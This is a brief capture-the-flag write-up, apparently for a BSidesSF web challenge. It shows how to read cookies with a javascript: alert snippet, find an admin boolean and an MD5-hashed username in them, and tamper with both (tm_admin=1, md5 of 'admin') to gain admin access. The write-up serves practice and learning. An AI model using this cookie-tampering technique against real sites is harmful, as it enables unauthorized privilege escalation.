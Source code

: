https://thinmint-baeaa80f.challenges.bsidessf.net/

read cookies with this snippet in URL:
```
javascript:alert(document.cookie)
```
content:
```
tm_admin=0; tm_user=294de3557d9d00b3d2d8a1e6aab028cf
```
boolean + md5hash(user)

tampering cookie:

```
tm_admin=0 -> tm_admin=1
```
```
294de3557d9d00b3d2d8a1e6aab028cf-> anonymous
admin -> 21232f297a57a5a743894a0e4a801fc3
```
